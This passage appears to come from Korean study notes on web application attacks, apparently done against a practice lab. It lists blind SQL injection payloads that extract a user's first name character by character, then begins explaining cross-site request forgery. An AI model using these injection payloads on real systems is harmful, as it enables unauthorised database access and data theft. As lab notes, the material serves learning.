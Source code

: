 <img src ="https://github.com/adakim3297/GBC-WEB---3/blob/main/SI(B)%20high-3%20high.png?raw=true" width="500" height="450"/>
    1' AND ascii(substr((select first_name from users where user_id='1'), 1, 1))>91#

    1' AND ascii(substr((select first_name from users where user_id='1'), 1, 1))>92#

    .
    .
    .
    1' AND ascii(substr((select first_name from users where user_id='1'), 1, 1))>96#
    등 숫자를 바꾸며 해결하는 방법도 있다.


# CSRF

## Cross-Site Request Forgery 의 약어 이다

* 사이트 사이의 위조 요청이라는 뜻으로 사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위(수정, 삭제, 등록 등)를 웹사이트에 요청하게 하는 공격이다.
* 공격자는 웹사이트가 신뢰하고 있는 사용자의 권한을 이용해서 중요 행동을 실행 한다
* 웹사이트에서는 출처가 신뢰할 만한 곳이기에 공격에 노출되는 것이다.
